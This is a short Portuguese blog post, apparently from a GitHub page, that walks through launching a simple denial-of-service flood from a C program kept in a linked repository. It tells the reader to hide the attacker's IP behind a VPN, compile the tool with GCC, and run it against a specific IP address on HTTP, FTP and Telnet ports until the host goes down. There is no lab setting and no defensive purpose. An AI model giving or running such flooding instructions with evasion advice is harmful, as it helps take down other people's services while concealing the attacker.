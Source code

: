 ```yaml
---
title: DoS Attack - with Clang
category: post
---
```


>link do código usado : 
https://github.com/d0x75/DoS-Clang_Linux.git

---


**Simple DoS Attack**

>DoS é um ataque de negação de serviço que é feito para prejudicar o pilar da Disponibilidade dos dados.

>Nesse caso se trata de um DoS bem simplório, que irá apenas ficar fazendo requisições repetidamente.. afim de sobrecarregar o Host e consequentemente derrubar-lo.



### Step 1

- Configurar uma VM Linux , de preferência com uma VPN para esconder o IP do atacante.

- Ter instalado ao menos o GCC na VM, para compilar o código que vai efetuar o DoS.


### Step 2


- Obter e Ler o código do link mencionado no início.

- Depois de entender e compilar o código mencionado
acima, usando o GCC de forma convencional :


```bash		
gcc DoS-linux.c -o DoS
```

### Step 3

- Se possível ligar uma VPN ou outro mecanismo que
esconda o IP do dispositivo atacante.
	
- Executar o programa compilado no Step 2, e passar
como argumento o 'host' e 'port' do alvo, que ficará
recebendo as requisições até ficar flooded e cair.

_exemplos :_

*Direcionando o DoS para um servidor HTTP(porta 80)* :


```bash
./DoS 65.75.137.94 80
```

*Direcionando o DoS para um servidor FTP(porta 21)* :


```bash
./DoS 65.75.137.94 21
```

*Direcionando o DoS para um servidor Telnet(porta 23)* :


```bash
./DoS 65.75.137.94 23
```